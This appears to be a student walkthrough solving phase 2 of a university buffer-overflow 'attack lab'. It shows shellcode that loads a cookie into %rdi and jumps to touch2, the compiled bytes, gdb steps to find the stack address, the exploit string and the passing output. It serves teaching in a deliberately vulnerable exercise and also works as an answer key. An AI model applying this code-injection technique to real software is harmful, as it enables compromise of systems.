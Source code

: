 Phase 2 involves injecting a little code and calling function touch2 while making it look like you passed the cookie as an argument to touch2

If you look inside the rtarget and search for touch2, it looks something like this:

```
000000000040178c <touch2>:
  40178c:	48 83 ec 08          	sub    $0x8,%rsp
  401790:	89 fe                	mov    %edi,%esi
  401792:	c7 05 e0 30 20 00 02 	movl   $0x2,0x2030e0(%rip)        # 60487c <vlevel>
  401799:	00 00 00 
  40179c:	3b 3d e2 30 20 00    	cmp    0x2030e2(%rip),%edi        # 604884 <cookie>
  4017a2:	75 1b                	jne    4017bf <touch2+0x33>
  4017a4:	bf a0 30 40 00       	mov    $0x4030a0,%edi
  4017a9:	b8 00 00 00 00       	mov    $0x0,%eax
  4017ae:	e8 8d f4 ff ff       	callq  400c40 <printf@plt>
  4017b3:	bf 02 00 00 00       	mov    $0x2,%edi
  4017b8:	e8 dc 04 00 00       	callq  401c99 <validate>
  4017bd:	eb 19                	jmp    4017d8 <touch2+0x4c>
  4017bf:	bf c8 30 40 00       	mov    $0x4030c8,%edi
  4017c4:	b8 00 00 00 00       	mov    $0x0,%eax
  4017c9:	e8 72 f4 ff ff       	callq  400c40 <printf@plt>
  4017ce:	bf 02 00 00 00       	mov    $0x2,%edi
  4017d3:	e8 73 05 00 00       	callq  401d4b <fail>
  4017d8:	bf 00 00 00 00       	mov    $0x0,%edi
  4017dd:	e8 ce f5 ff ff       	callq  400db0 <exit@plt>
```

If you read the instruction pdf, it says, "Recall that the first argument to a function is passed in register %rdi." 

So our goal is to modify the %rdi register and store our cookie in there.

So you have to write some assembly code for that task, create a file called phase2.s and write the below code, replacing the cookie and return address with yours

```
  movq $0x434b4b70,%rdi /* move your cookie to register %rdi */
  pushq $0x0040178c     /* push the address of touch2 to the stack */
  retq                  /* return */
```

Now you need the byte representation of the code you wrote above. compile it with gcc then dissasemble it

```
gcc -c phase2.s
objdump -d phase2.o  > phase2.d 
```

Now open the file phase2.d and you will get something like below

```
Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 70 4b 4b 43 	mov    $0x434b4b70,%rdi
   7:	68 8c 17 40 00       	pushq  $0x40178c
   c:	c3                   	retq   
```

The byte representation of the assembly code is `48 c7 c7 70 4b 4b 43 68 8c 17 40 00 c3`

Now you need to find the address of the %rsp register and pass it as the return address since it will execute our injected code

run ctarget through gdb 

`gdb ctarget`

set a breakpoint at getbuf 

`b getbuf`

print all the registers 

`info r`

That will prnt the addresses for all registers, grab the one for rsp

Now, create a text file named phase2.txt which will look something like below
```
48 c7 c7 70 4b 4b 43 68
8c 17 40 00 c3 00 00 00 /* first 13 bytes of the 24 bytes are the injected code, the rest is just padding */
00 00 00 00 00 00 00 00
28 38 62 55 00 00 00 00 /* address of register %rsp */
```

Run it through hex2raw

`./hex2raw < phase2.txt > raw-phase2.txt`

Finally, you run the raw file

`./ctarget < raw-phase2.txt`

Response looks like below

```
Cookie: 0x434b4b70
Type string:Touch2!: You called touch2(0x434b4b70)
Valid solution for level 2 with target ctarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```
